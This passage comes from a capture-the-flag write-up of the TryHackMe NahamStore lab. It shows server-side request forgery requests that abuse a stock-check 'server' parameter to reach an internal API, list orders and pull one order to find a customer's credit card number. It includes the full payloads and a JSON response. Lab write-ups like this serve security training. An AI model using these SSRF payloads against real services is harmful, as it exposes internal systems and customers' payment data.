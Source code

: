 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a44.png)

**And we found an endpoint! `/orders`**

```
POST /stockcheck HTTP/1.1
[...]
product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders#
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a45.png)

```json
[
    {
        "id": "4dbc51716426d49f524e10d4437a5f5a",
        "endpoint": "/orders/4dbc51716426d49f524e10d4437a5f5a"
    },
    {
        "id": "5ae19241b4b55a360e677fdd9084c21c",
        "endpoint": "/orders/5ae19241b4b55a360e677fdd9084c21c"
    },
    {
        "id": "70ac2193c8049fcea7101884fd4ef58e",
        "endpoint": "/orders/70ac2193c8049fcea7101884fd4ef58e"
    }
]
```

**Let's find credit card number for Jimmy Jones!**

```
POST /stockcheck HTTP/1.1
[...]
product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a46.png)
